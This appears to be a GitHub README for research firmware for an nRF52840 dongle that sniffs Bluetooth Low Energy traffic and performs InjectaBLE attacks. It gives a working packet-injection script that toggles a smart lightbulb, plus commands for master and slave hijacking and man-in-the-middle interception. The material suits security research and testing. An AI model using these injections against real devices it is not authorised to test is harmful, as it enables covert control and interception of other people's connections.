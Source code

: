 # injectable-firmware
Custom firmware for nrf52840-dongle, allowing to easily eavesdrop Bluetooth Low Energy communications and perform multiple active attacks based on InjectaBLE strategy.

## Installing the environment
* Install the latest ARM GCC Toolchain (C++ support needed), add it to your PATH variable
* Download the latest NRF5 SDK from nordic semiconductors
* Install nrfutil and add it to your PATH variable
* Set the SDK_ROOT environment variable to match the SDK directory

## Compiling the firmware
Compiling the firmware is straigtforward:
```
$ make
```

Then, you can use the send command to flash it on the dongle:
```
$ make send
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit SALTO device
[...]
```

## Injecting packets into an established connection
You can use Mirage framework to interact with the dongle and perform injection attacks. For example, let's imagine you want to inject packets into a Bluetooth Low Energy connection between a lightbulb and a smartphone. You know that the following packets allow to turn the bulb on or off:

* **Write command | handle = 0x0021 | data = 5510010d0a:** turn the bulb on
* **Write command | handle = 0x0021 | data = 5510000d0a:** turn the bulb off

You can write the following scenario, which will inject the "on" packet when the up arrow key is pressed and the "off" packet when the down arrow key is pressed:

```
from mirage.core import scenario
from mirage.libs import io,ble,utils

class injection_lightbulb(scenario.Scenario):

	def onStart(self):
		self.emitter = self.module.getEmitter(self.module["INTERFACE"])

	def onKey(self,key):
		if key == "up":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x01\x0d\x0a"))
		elif key == "down":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x00\x0d\x0a"))
```

1) Save this scenario as **injection_lightbulb.py** in the *scenarios* folder.
2) Run the **ble_sniff** module with the following parameters:
```
sudo ./mirage_launcher ble_sniff SNIFFING_MODE=newConnections SCENARIO=injection_lightbulb INTERFACE=salto0
```

3) Establish the connection between the smartphone and the lightbulb: when you are synchronized with the connection, you can simply inject the previously mentioned packets by pressing up or down arrows keys.


## Hijacking the master role (experimental)
InjectaBLE allows to perform master hijacking attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with the Slave when the Master changes its connection parameters. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_master" ble_hijack1.INTERFACE=salto0 ble_hijack1.ROLE=master
```


## Hijacking the slave role (experimental)
InjectaBLE allows to perform slave hijacking attacks by injecting a LL\_TERMINATE\_IND packet and synchronize with the Master when the Slave disconnects. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_slave" ble_hijack1.INTERFACE=salto0 ble_hijack1.ROLE=slave
```


## Performing a MiTM attack (experimental)
InjectaBLE allows to perform MiTM attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with both legitimate devices when the Master changes its connection parameters. You can perform this kind of attacks using **ble_mitm** module:
```
sudo ./mirage_launcher ble_mitm INTERFACE=salto0 MITM_STRATEGY=injection
```

